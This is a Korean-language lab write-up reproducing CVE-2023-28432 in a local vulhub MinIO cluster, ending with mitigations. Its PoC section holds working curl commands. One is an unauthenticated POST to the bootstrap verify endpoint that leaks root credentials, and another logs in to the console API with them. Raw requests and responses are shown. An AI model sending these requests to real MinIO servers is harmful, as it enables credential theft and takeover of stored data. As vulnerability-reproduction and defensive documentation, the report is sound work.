




# CVE-2023-28432 — MinIO Cluster Deployment Information Disclosure

## 1. 취약점 요약

| 항목 | 내용 |
|---|---|
| CVE ID | CVE-2023-28432 |
| 대상 소프트웨어 | MinIO (Multi-Cloud Object Storage) |
| 영향받는 버전 | `RELEASE.2019-12-17T23-16-33Z` ~ `RELEASE.2023-03-20T20-16-18Z` 이전 (분산/클러스터 배포 한정) |
| 패치 버전 | `RELEASE.2023-03-20T20-16-18Z` 이상 |
| 취약점 유형 | 인증 우회를 통한 정보 노출 (CWE-200: Exposure of Sensitive Information) |
| CVSS 3.1 점수 | 7.5 (High) — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |

MinIO를 **분산(클러스터) 모드**로 배포했을 때, 각 노드가 클러스터 부트스트랩 과정에서 서로의 설정을 검증하기 위해 사용하는 내부 API 엔드포인트 `/minio/bootstrap/v1/verify`가 **인증 절차 없이 외부에 노출**된다. 이 엔드포인트에 임의의 POST 요청을 보내면 서버는 `MINIO_ROOT_USER`, `MINIO_ROOT_PASSWORD`를 포함한 프로세스의 전체 환경변수를 응답 본문에 그대로 반환한다. 공격자는 이를 통해 관리자 자격증명을 획득하고 MinIO 콘솔 및 API에 완전한 관리자 권한으로 접근할 수 있다.

## 2. 환경 구성

vulhub 공식 저장소의 구성을 그대로 사용한다. 외부 이미지는 버전이 고정(pin)된 `vulhub/minio:2023-02-27T18-10-45Z` 하나만 사용하며, 이 `docker-compose.yml` 파일 하나로 3-노드 MinIO 분산 클러스터가 전부 구성된다. 별도의 사전 설치나 외부 리소스는 필요하지 않다.

> **참고**: 원본 vulhub 구성은 `node1`의 호스트 포트를 `9000:9000`, `9001:9001`로 지정하지만, Windows 환경에서 해당 포트 대역이 시스템 예약 범위(Hyper-V 동적 포트 예약)와 충돌할 수 있다. 이 경우 컨테이너 내부 포트(9000/9001)는 그대로 두고 호스트 쪽 매핑만 `19000:9000`, `19001:9001`처럼 여유 포트로 변경하면 된다. 클러스터 내부 통신(`command`에 명시된 `http://node1:9000/...` 등)은 컨테이너 간 통신이므로 영향을 받지 않는다.



### 실행 명령

```bash
docker compose up -d
docker compose ps
```

정상적으로 실행되면 `node1`, `node2`, `node3` 컨테이너가 모두 `Up` 상태로 표시된다.

## 3. 취약 조건

- MinIO가 **단일 노드가 아닌 분산(클러스터) 모드**로 배포되어 있어야 한다. (`minio server`에 여러 endpoint가 함께 전달되는 구성)
- `RELEASE.2023-03-20T20-16-18Z` 이전 버전이어야 한다.
- `/minio/bootstrap/v1/verify` 엔드포인트에 별도의 인증 헤더나 세션 없이 요청을 보낼 수 있어야 한다 (방화벽 등으로 해당 API 포트가 외부에 노출된 경우 원격에서도 공격 가능).

## 4. 재현 절차 및 PoC

### 4.1 사전 준비

앞서 2번 항목의 `docker-compose.yml`로 환경을 기동한다.

```bash
docker compose up -d
```

### 4.2 Step 1 — 환경변수 노출 확인

`/minio/bootstrap/v1/verify` 엔드포인트에 인증 없이 POST 요청을 보낸다.

```bash
curl -X POST http://localhost:19000/minio/bootstrap/v1/verify
```

Burp Suite로 요청/응답을 가로채서 확인하려면 프록시를 경유시킨다.

```bash
curl -x http://127.0.0.1:8080 -X POST http://localhost:19000/minio/bootstrap/v1/verify
```

**요청(raw)**

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

**응답 예시**

```json
{
  "MinioEndpoints": [ ... ],
  "MinioEnv": {
    "MINIO_ACCESS_KEY_FILE": "access_key",
    "MINIO_CONFIG_ENV_FILE": "config.env",
    "MINIO_KMS_SECRET_KEY_FILE": "kms_master_key",
    "MINIO_ROOT_PASSWORD": "minioadmin-vulhub",
    "MINIO_ROOT_PASSWORD_FILE": "secret_key",
    "MINIO_ROOT_USER": "minioadmin",
    "MINIO_ROOT_USER_FILE": "access_key",
    "MINIO_SECRET_KEY_FILE": "secret_key"
  }
}
```

응답 본문에 관리자 계정(`MINIO_ROOT_USER`)과 비밀번호(`MINIO_ROOT_PASSWORD`)가 인증 절차 없이 그대로 노출되는 것을 확인할 수 있다.



### 4.3 Step 2 — 노출된 계정정보로 로그인 검증

Step 1에서 획득한 자격증명(`minioadmin` / `minioadmin-vulhub`)이 실제로 유효한지 로그인 API를 통해 검증한다.

```bash
curl -x http://127.0.0.1:8080 -i -X POST http://localhost:19001/api/v1/login \
  -H "Content-Type: application/json" \
  -d "{\"accessKey\":\"minioadmin\",\"secretKey\":\"minioadmin-vulhub\"}"
```

**요청 본문**

```json
{
  "accessKey": "minioadmin",
  "secretKey": "minioadmin-vulhub"
}
```

**응답 예시**

```
HTTP/1.1 204 No Content
Server: MinIO Console
Set-Cookie: token=eyJhbGci... ; Path=/; HttpOnly; SameSite=Lax
```

`204 No Content`와 함께 세션 `token` 쿠키가 발급되는 것을 통해, 노출된 계정정보가 실제로 유효하며 공격자가 정상적으로 관리자 세션을 획득할 수 있음을 확인했다.



## 5. 실행 결과

| 단계 | 요청 | 결과 |
|---|---|---|
| 1 | `POST /minio/bootstrap/v1/verify` (인증 없음) | `MINIO_ROOT_USER`, `MINIO_ROOT_PASSWORD` 등 전체 환경변수 노출 |
| 2 | `POST /api/v1/login` (Step 1에서 얻은 자격증명 사용) | `204 No Content` + 세션 토큰 발급 → 관리자 로그인 성공 |

두 단계 모두 클린 환경(`docker compose up -d` 직후)에서 별도의 조작 없이 curl 명령만으로 재현되었으며, Burp Suite HTTP History에서 요청/응답 원문을 확인했다.

## 6. 대응 방안

1. **버전 업그레이드 (근본 대책)**: `RELEASE.2023-03-20T20-16-18Z` 이상 버전으로 업그레이드한다. 해당 버전부터 `/minio/bootstrap/v1/verify`가 클러스터 내부 노드 간 통신에서만 사용되도록 접근 제어가 적용되었다.
2. **네트워크 분리**: MinIO 노드 간 통신에 사용되는 포트(예: 9000)를 외부에서 접근 불가능한 내부 네트워크/VPC로 격리하고, 외부에는 리버스 프록시나 로드밸런서를 통해서만 필요한 API를 노출한다.
3. **임시 완화책**: 업그레이드가 즉시 어려운 경우, WAF나 리버스 프록시 단에서 `/minio/bootstrap/v1/verify` 경로로 향하는 외부 요청을 차단한다.
4. **자격증명 로테이션**: 이미 노출 가능성이 있었던 환경이라면 `MINIO_ROOT_USER` / `MINIO_ROOT_PASSWORD`를 즉시 교체한다.

## 참고 자료

- [vulhub/vulhub — minio/CVE-2023-28432](https://github.com/vulhub/vulhub/tree/master/minio/CVE-2023-28432)
- [MinIO RELEASE.2023-03-20T20-16-18Z](https://github.com/minio/minio/releases/tag/RELEASE.2023-03-20T20-16-18Z)